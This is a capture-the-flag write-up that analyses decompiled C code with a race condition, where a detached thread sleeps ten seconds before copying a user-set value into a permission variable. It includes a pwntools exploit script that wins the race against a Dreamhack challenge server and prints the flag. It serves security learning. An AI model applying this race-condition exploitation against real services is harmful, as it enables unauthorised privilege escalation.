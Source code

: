 This is basic race condition vulnerability. Let's figure it out with me!
## Source code
```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-1Ch] BYREF
  pthread_t newthread; // [rsp+8h] [rbp-18h] BYREF
  void *ptr; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  sub_1369(a1, a2, a3);
  ptr = (void *)sub_13D7("./flag");
  qword_4030 = 0LL;
  while ( 1 )
  {
    sub_154B();
    printf("Input: ");
    __isoc99_scanf("%u", &v3);
    if ( v3 == 4 )
    {
      free(ptr);
      exit(0);
    }
    if ( v3 > 4 )
    {
LABEL_16:
      puts("Invalid Menu! Please try again.");
    }
    else
    {
      switch ( v3 )
      {
        case 3:
          if ( qword_4030 == 0xDEADBEEFLL )
            printf("Flag : %s\n", (const char *)ptr);
          else
            puts("Don't have permission!");
          break;
        case 1:
          printf("Input: ");
          __isoc99_scanf("%lu", &qword_4038);
          break;
        case 2:
          if ( pthread_create(&newthread, 0LL, start_routine, 0LL) )
          {
            perror("Thread creation failed\n");
            exit(1);
          }
          pthread_detach(newthread);
          break;
        default:
          goto LABEL_16;
      }
    }
  }
}
```
Yeah in the main function, we have 3 options:
* option 1: input to `qword_4038` 
* option 2: create a new thread in `start_routine()` function
* option 3: check flag if `qword_4030 == 0xDEADBEEF` 
```c
void *__fastcall start_routine(void *a1)
{
  if ( qword_4038 != 0xDEADBEEFLL )
  {
    sleep(0xAu);
    qword_4030 = qword_4038;
  }
  return 0LL;
}
```

So in `start_routine` this thread will run parallel with main function and it will check:
if `qword_4038 != 0xDEADBEEF` then sleep(10) and `qword_4030 = qword_4038` 
The vulnerability lies on this thread

Initially `qword_4038 = 0` so we will bypass this if condition.
And then we have a chance in 10s to modify the value of `qword_4038 = 0xDEADBEEF` from input by option 1.

After that 10s in the `start_routine`, the value of `qword_4030` will be set to `qword_4038`. And because that variable was assign from the input equal to `0xDEADBEEF` before, so `qword_4030` will equal to `0xDEADBEEF` too.

Thus, just choose option 3 to check flag.
Exploit code:

```py
from pwn import *

# Correct connection to remote server
p = remote('host3.dreamhack.games', 21530)
p.sendlineafter(b"Input: ", b"2")
p.sendlineafter(b"Input: ", b"1")
p.sendlineafter(b"Input: ", str(0xDEADBEEF).encode())
sleep(10)
p.sendlineafter(b"Input: ", b"3")
print(p.recvline())

```
Output:
```
$ python3 exploit.py 
[+] Opening connection to host3.dreamhack.games on port 21530: Done
b'Flag : DH{y0u_c4n_r4c3_w17h_m3!!}\n'
[*] Closed connection to host3.dreamhack.games port 21530
```